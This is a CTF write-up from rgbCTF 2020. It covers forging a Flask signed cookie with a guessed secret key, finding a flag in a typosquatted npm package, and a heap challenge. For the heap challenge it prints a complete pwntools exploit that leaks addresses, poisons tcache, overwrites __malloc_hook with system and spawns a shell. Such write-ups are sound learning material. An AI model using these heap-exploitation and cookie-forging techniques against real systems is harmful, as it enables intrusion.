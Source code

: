 # rgbCTF 2020

Lots of guess, but redpwn still won.

## Countdown

Web.
The ending date is in a signed cookie w/ Flask.

On the site there is a `Time is key.`, so you guess that `Time` is the secret key and sign a modified cookie (with the end date as some date that already passed).

## Keen Eye

Web.
The site uses a package called `poppers.js`, not the actual `popper.js`. The flag is inside the javascript source code on npm.

## Soda Pop Bop

Good heap chall, cheesed w/ tcache (I got the idea from studysim). Full security checks are in place.

- HOF by setting party size to 0
- Write to tcache freelist to read some libc pointers in .bss
- Write to another tcache freelist to write address of system to __malloc_hook
- Allocate chunk, with the size being the pointer to the string `/bin/sh`

```python
from pwn import *
import ctypes

e = ELF("./spb")
libc = ELF("./libc.so.6")

p = remote("challenge.rgbsec.xyz", 6969)
#p = process("./spb", env={"LD_PRELOAD":libc.path})

#context.log_level="debug"
#gdb.attach(p, """pie break * main+500""")

def choose(length, title="AAAA"):
	p.sendlineafter(">", "1")
	p.sendlineafter(">", str(length))
	p.sendlineafter(">", title)
	print("chose")


def drink(idx, drink):
	p.sendlineafter(">", "2")
	p.sendlineafter(">", str(idx))
	p.sendlineafter(">", str(drink))
	print("got drink")


def sing():
	p.sendlineafter(">", "3")
	print("sang")


p.sendlineafter(">", "0")
p.sendlineafter(">", "")


sing()

leak = p.recvline()

pie_base = int(leak.split()[2][2:], 16) - 0xf08
print("pie_base", hex(pie_base))

choose(0x10)

sing()

leak = p.recvline()

heap_base = int(leak.split()[2][2:], 16) - 0x280
print("heap address", hex(heap_base))


top_chunk = 0x2a0+heap_base

p.sendlineafter(">", "1")
p.sendlineafter(">", str(ctypes.c_ulong(heap_base-top_chunk+0x60 - 24).value))

print("read from", pie_base + 0x202020, hex(pie_base + 0x202020))

p.recvline()
p.recvline()

choose("8", p64(pie_base + 0x202040))

p.recvuntil(">")

choose(8, "")
choose(8, "")

sing()

leak = p.recvline()

libc.address = int(leak.split()[2][2:], 16) - 0x3ec680
print("libc address", hex(libc.address))

print("malloc hook", hex(libc.sym["__malloc_hook"]))

print("system addr", hex(libc.sym["system"]))


binsh = next(libc.search("/bin/sh"))

print("binsh", hex(binsh))


choose(0x69, "\x00"*0x10 + p64(libc.sym["__malloc_hook"]))
choose(0x69, p64(libc.sym["system"]))

p.sendlineafter(">", "1")
p.sendlineafter(">", str(binsh))

p.interactive()
```

Unfortunately I didn't know how to HOF at the time so Rob did it.